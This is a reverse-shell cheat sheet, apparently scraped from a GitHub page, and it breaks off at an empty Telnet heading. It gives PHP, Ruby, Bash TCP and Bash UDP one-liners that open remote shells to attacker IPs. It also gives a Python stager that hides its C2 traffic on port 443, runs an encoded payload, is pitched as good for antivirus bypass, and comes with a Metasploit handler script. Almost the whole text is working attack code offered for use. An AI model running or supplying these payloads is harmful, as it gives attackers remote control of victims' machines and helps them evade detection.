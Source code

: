 ```
php -r '$sock=fsockopen("10.10.14.92",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("192.168.1.2",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
### Python Reverse shell
- It is Good for antivirus Bypass
```python
import socket   
import ssl     
import os  
import threading  
import time  
import zlib  
import base64  
import struct  
c2 = '10.10.10.x' #Command and control server ip/hostname  
port = 443 #Port to connect to (443 to mask the encrypted traffic as https traffic)  
context=ssl._create_unverified_context()  
with socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0) as sock:  
    with context.wrap_socket(sock, server_hostname=c2) as ssock:  
         ssock.connect((c2, port))  
         sent = struct.unpack('>I',ssock.recv(12000))[0]  
         payload = ssock.recv(sent)  
         while len(payload) < sent:  
            payload += ssock.recv(sent-len(payload))  
         exec(zlib.decompress(base64.b64decode(payload)), {'s':ssock})
```
- Save this in python file and send it to the machinee as a payload.
- Use the below metasploit rc
```shell
use multi/handler  
set payload python/meterpreter/reverse_tcp_ssl  
set LPORT 443  
set LHOST 0.0.0.0  
run
```
### Ruby Reverse Shell

`ruby -rsocket -e'f=TCPSocket.open("192.168.1.2",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

### Bash TCP Reverse Shell

`bash -i >& /dev/tcp/10.10.14.92/1234 0>&1`

### Bash UDP Reverse Shell

`sh -i >& /dev/udp/192.168.1.2/5555 0>&1`

### Telnet Reverse Shell
